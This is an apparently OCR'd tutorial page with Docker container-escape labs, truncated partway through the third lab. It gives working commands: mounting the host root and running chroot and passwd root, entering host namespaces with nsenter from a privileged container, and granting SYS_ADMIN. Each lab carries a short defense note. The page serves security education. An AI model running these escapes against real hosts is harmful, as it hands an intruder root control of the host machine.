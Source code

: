 ```bash
sudo apt update
sudo apt install gcc make procps util-linux -y
```

---

### 🔹 Lab 1: Host Mount Escape via `-v /:/host`

#### Step 1: Run a container with full host access

```bash
docker run -it --rm --privileged -v /:/host ubuntu bash
```

#### Step 2: Simulate host access

```bash
chroot /host bash
passwd root  # Example, do not use on real systems
```

✅ **Expected:** Full host access.

🧠 **Defense:** Never mount `/`, use strict volume policies.

---

### 🔹 Lab 2: Escape via `--privileged` and `/proc`

#### Step 1: Start a privileged container

```bash
docker run -it --rm --privileged ubuntu bash
```

#### Step 2: Enter host namespaces

```bash
nsenter --target 1 --mount --uts --ipc --net --pid
```

✅ **Expected:** You are now in the host’s namespaces.

🧠 **Defense:** Avoid `--privileged`, use minimal capabilities.

---

### 🔹 Lab 3: Simulated Kernel Escape via `CAP_SYS_ADMIN`

> This does **not** run a real exploit, but shows how dangerous capabilities can be.

#### Step 1: Launch container with high privileges

```bash
docker run -it --rm --cap-add=SYS_ADMIN ubuntu bash
```

#### Step 2: Try sensitive operations
